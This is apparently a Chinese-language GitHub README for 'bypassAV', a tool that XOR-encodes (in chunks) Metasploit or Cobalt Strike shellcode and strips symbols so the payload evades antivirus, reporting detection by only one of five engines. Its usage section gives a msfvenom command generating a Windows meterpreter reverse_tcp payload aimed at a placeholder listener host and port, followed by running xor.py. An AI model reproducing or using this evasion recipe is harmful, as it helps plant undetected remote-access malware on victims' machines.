


# bypassAV
## 简介
* ~~v1.0:破产版免杀，大致思路是将shellcode异或，之后在主程序中解码。关键是清除一些符号信息，采用boy-hack大佬的go-strip~~(6天)
* v1.1:1.0的异或改为分块异或（详见代码）
## 使用方法
msf或者cs生成c#格式的shellcode，粘贴到xor.py的buf当中

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=xxxx -f csharp
$ python3 xor.py
```

## 免杀效果
5个被查杀了一个


# Reference 
https://github.com/boy-hack/go-strip